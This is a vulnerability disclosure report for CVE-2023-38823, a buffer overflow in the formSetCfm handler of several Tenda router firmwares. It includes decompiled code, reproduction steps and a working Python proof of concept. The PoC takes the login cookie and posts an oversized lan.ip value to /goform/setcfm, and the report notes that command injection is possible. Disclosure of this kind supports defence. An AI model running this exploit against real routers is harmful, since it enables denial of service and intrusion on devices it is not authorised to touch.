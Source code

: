 # Buffer Overflow in formSetCfm

## 1. Affected model(s) and firmware/software version(s)

Product: AC19 v.1.0, AC18, AC9 v.1.0, AC6 v.2.0 and v.1.0

Version: V15.03.05.19(6318)

Downloaded from: https://www.tenda.com.cn/download/detail-2683.html

Binary: `/bin/httpd`

## 2. Vulnerability description and potential impacts

In binary, there is a function called `formSetCfm` which allows any user to set value in any length of any keys in the following code:

```c
    do {
        sprintf((char *)&uStack_138,"name%d",local_14);
        local_1c = (char *)FUN_0002ba8c(param_1,&uStack_138,&DAT_000df880);
        if (*local_1c == '\0') break;
        sprintf((char *)&uStack_238,"value%d",local_14);
        local_18 = FUN_0002ba8c(param_1,&uStack_238,&DAT_000df880);
        printf("name:%s\tvalue:%s\n",local_1c,local_18);
        SetValue(local_1c,local_18);
        local_14 = local_14 + 1;
    } while (local_14 < 0x15);
```

We can set a specific key (ex: `lan.ip`) with a large bytes of value and when the program calls `GetValue` with that specific key `lan.ip`, it will read to a buffer and hence, cause overflow. In addition, it can also cause command injection.

## 3. Step-by-step instructions to reproduce the issue

- Step 1: Run router
- Step 2: Request the index.html to get the password from cookie
- Step 3: Craft a malicious payload
- Step 4: Send payload from step 3 (in body of packet) and password from step 2 (in header cookie) to url `http://<ip>/goform/setcfm` with POST requests

## 4. Proof-of-concept (PoC) or exploit code for the issue

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.0.1/'

# Get password
url = url_base + 'index.html'
res = s.get(url)
password = 'password=' + s.cookies.get_dict()['password'] + '; bLanguage=cn'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'name0': 'lan.ip', 
        'value0': b'a'*0x500, 
        'funcname':'changelanip'
}
headers = {
    'Cookie': password,
}

res = re.post(url, data=data, headers=headers)
```

![](images/CVE-2023-38823.gif)

## 5. Any suggested solutions to fix this

Limit number of bytes read to buffer in function `GetValue`

## 6. Severity (e.g. CVSS v3.x)

DOS, Command injection

## 7. Acknowledgement

Nguyen Huu Tri, Cao Ngoc Quy and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## 8. Assigned CVE

CVE-2023-38823